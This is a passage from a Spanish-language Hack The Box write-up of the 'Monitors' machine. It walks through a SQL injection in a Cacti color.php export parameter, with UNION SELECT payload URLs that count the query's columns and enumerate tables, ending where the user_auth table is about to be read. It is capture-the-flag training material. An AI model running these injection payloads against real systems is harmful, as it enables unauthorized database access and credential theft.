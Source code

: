 Comenzaremos inyectando el _payload_ clásico `')+UNION+SELECT+NULL;--+-` para calcular el número de columnas en la consulta. 

```
http://cacti-admin.monitors.htb/cacti/color.php?action=export&filter=1')+UNION+SELECT+NULL;--+-
```

![35](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/35.png){:class="blog-image" onclick="expandImage(this)"}

Continuaremos añadiendo `NULL` hasta encontrar la cantidad correcta de columnas, y al añadir siete `NULL`, logramos que se descargue un archivo _CSV_ llamado _colors.csv_. Esto confirma que la consulta SQL original tiene siete columnas.

```
http://cacti-admin.monitors.htb/cacti/color.php?action=export&filter=1')+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL;--+-
```

![36](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/36.png){:class="blog-image" onclick="expandImage(this)"}

Ahora nos interesa listar todas las tablas de la base de datos; para ello, utilizaremos el siguiente _payload_:

```
http://cacti-admin.monitors.htb/cacti/color.php?action=export&filter=1')+UNION+SELECT+NULL,table_name,NULL,NULL,NULL,NULL,NULL+FROM+information_schema.tables;--+-
```

![37](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/37.png){:class="blog-image" onclick="expandImage(this)"}

Entre las tablas listadas, identificamos una de interés llamada `user_auth`. Procedemos a descubrir el nombre de sus columnas mediante la siguiente inyección:
